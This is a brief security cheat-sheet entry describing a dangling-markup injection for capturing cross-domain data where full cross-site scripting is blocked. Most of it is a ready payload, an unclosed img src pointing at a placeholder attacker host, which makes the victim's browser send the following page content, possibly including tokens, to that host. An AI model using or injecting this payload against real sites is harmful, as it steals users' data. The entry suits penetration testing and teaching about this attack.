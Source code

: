 ### capture data cross-domain where full xss is not possible
```
payload does not close the src attribute
parsing of response will treat everything as part of the URL until another quotation mark is encountered
"><img src='//<lhost>/ 
```


